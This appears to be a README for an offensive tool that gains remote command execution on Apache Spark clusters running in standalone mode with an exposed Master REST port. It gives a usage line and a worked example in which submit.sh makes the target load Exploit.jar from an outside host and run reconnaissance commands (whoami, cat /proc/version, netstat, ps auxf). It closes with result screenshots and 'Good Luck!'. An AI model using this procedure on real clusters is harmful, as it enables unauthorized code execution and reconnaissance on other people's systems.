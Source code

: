 # Remote Command Execution Over Spark

## Conditions
1. Spark is running on Standalone Mode.
2. REST URL of Master is accessible.

## How to use

```bash
./submit.sh spark_rest_url spark_version jar_url commands
```

### Example

```bash
./submit.sh \
1.1.1.1:6066 \
2.2.0 \
http://2.2.2.2/Exploit.jar \
"whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
```

### Result
![](media/15133242895615.png)

![](media/15133243117653.png)

![](media/15133243161989.jpg)

Good Luck!

![](media/15133243206133.jpg)
